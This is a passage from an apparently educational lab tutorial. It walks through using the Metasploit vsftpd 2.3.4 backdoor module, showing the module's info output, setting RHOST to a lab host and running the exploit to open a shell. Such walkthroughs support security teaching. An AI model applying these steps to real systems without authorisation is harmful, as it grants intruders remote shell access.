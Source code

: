 ```

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/u
                                     sing-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the	VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Notice in the "target options" section, it gives us two variables that can be set.  To execute the exploit, we need to tell it what target to attack.  We could set the port (`RPORT`), but we'll keep it as the default port 21 (the standard port for FTP).  We have to set the RHOST variable (via `set RHOST <target>`) to set this value:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST metasploit
RHOST => metasploit
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

To execute the exploit, we enter `run`.  This particular one needs it entered twice -- once to open the shell, and the second time to use it.  The first time you run it, it will pause after the prompt, `USER: 331 Please specify the password`; that's showing you what the vsFTPd client output, but you don't have to enter the password -- the programmed exploit does that.
